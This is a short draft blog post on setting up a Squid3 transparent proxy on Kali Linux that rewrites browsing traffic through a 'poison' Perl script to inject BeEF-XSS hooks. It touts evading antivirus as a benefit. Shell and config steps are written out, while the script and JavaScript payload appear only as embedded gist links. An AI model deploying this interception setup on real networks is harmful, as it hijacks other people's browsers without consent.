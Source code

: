 ```yaml
---
layout: post
title: Kali Linux Squid3 Beef-XSS Proxy
meta:
posted:
category: blog
draft: true
---
```


<h3>Getting Started</h3>

Pros
<ul>
	<li>Gets by Anti-Virus Software</li>
	<li>Supports multiple devices that support Javascript</li>
</ul>

Cons
<ul>
	<li>777 in web dictionary</li>
	<li>Comment Injection</li>
	<li>Only Unencrypted Browsing</li>
	<li>Robust Server / Performance Latency</li>
</ul>


<code>apt-get update</code>
<code>apt-get dist-upgrade</code>
<code>apt-get -y install squid3</code>

<code># kate -> Open: /etc/squid3/squid.conf</code>
<code># Edit (Line 588): acl localnet src 192.168.0.0/16</code>
<code># Edit (Line 644): http_access allow localnet</code>
<code># Edit (Line 868): http_port 3128 transparent</code>
<code># Add (Line: &#42end&#42): url_rewrite_program /root/poison.pl</code>
<code># Save</code>

<code>chmod 755 *pl</code>
<code>ls -l *pl</code>

<code>mkdir /var/www/html/tmp</code>
<code>chown nobody:nogroup /var/www/html/tmp</code>
<code>chmod 777 /var/www/html/tmp</code>
<code>service apache2 restart</code>
<code>service squid3 restart</code>
<code>clear</code>

<h3 style=\"padding-bottom:15px;\">Squid3 Poison Pearl Script</h3>
<script src=\"https://gist.github.com/matrixfox/790e489506105c33f797.js\"></script>

<h3 style=\"padding-bottom:15px;\">JavaScript Payload</h3>
<script src=\"https://gist.github.com/matrixfox/541e1e9ca79aa54f42da.js\"></script>
